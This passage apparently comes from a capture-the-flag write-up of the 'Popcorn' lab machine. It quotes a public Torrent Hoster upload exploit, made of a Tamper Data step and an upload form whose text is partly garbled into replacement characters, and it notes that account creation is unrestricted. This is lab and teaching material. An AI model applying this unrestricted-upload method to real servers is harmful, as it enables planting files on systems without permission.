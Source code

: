 ```sh
========================================================================================
| # Title    : Torrent Hoster Remont Upload Exploit
| # Author   : El-Kahina
| # Home     : www.h4kz.com                                                                              |
| # Script   : Powered by Torrent Hoster.
| # Tested on: windows SP2 Fran&#65533;ais V.(Pnx2 2.0) + Lunix Fran&#65533;ais v.(9.4 Ubuntu)
| # Bug      : Upload
|
====================== Exploit By El-Kahina =================================
 # Exploit  :

 1 - use tamper data :

 http://127.0.0.1/torrenthoster//torrents.php?mode=upload

 2-
    <center>
   Powered by Torrent Hoster
        <br />
        <form enctype="multipart/form-data" action="http://127.0.0.1/torrenthoster/upload.php" id="form" method="post" onsubmit="a=document.getElementById('form').style;a.display='none';b=document.getElementById('part2').style;b.display='inline';" style="display: inline;">
        <strong>&#65533;&#65533;&#65533;&#65533; &#65533;&#65533;&#65533; &#65533;&#65533;&#65533;&#65533;&#65533; &#65533;&#65533; &#65533;&#65533;:</strong> <?php echo $maxfilesize; ?>&#65533;&#65533;&#65533;&#65533;&#65533;&#65533;&#65533;&#65533;<br />
<br>
        <input type="file" name="upfile" size="50" /><br />
<input type="submit" value="&#65533;&#65533;&#65533; &#65533;&#65533;&#65533;&#65533;&#65533;" id="upload" />

```

The most promising option is the Upload section as from the exploit and best from the website it requires authorization.Luckily, there are no restrictions on account creation.

![](/Linux/Linux-Medium/Popcorn/Screenshots/hosterpopcorn.png)
